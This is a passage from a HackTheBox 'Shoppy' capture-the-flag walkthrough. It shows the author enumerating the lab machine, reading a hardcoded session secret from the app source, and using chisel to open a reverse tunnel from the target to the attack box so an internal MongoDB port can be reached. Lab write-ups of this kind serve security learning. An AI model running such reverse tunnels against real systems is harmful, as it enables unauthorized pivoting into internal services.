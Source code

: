 Also, we have shoppy_start.sh script in the machine

```bash
# shoppy_start.sh 
#!/bin/bash

export NVM_DIR="$HOME/.nvm"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh"

cd /home/jaeger/ShoppyApp && npm start
```

On the deploy user we can see some interesting files:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/shoppy/4_1_deploy.png" width="90%"/>
</p>

Currently there is no way to get into those files. The password manager cannot be executed from our user, so I kept enumerating the machine.
On the ShoppyApp directory (on jaeger's home directory), we can see the following pieces of code:


```js
const mongoUri = 'mongodb://127.0.0.1/shoppy';

app.use(session({
  secret: 'DJ7aAdnkCZs9DZWx',
  store: MongoStore.create({mongoUrl: mongoUri}),
  resave: false,
  saveUninitialized: false
}));
```

We have mongo running on port 127.0.0.1:27017 let's check it by creating a tunnel with _chisel_:

```bash
# On attack box
./chisel server -p 8000 --reverse

# On server
./chisel client 10.10.14.142:8000 R:27017:127.0.0.1:27017
```
